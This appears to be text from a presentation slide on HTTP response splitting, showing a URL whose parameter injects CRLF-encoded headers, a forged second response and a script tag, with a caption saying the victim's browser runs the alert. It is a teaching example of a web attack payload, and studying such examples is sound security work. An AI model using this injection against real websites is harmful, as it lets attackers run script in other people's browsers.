

http://www.yoursite.com/somepage.php?page=%0d%0aContent-Type: text/html%0d%0aHTTP/1.1 200 OK%0d%0aContent-Type: text/html%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E

              The victim will see the following in their browser
                                  <script>alert(1)</script>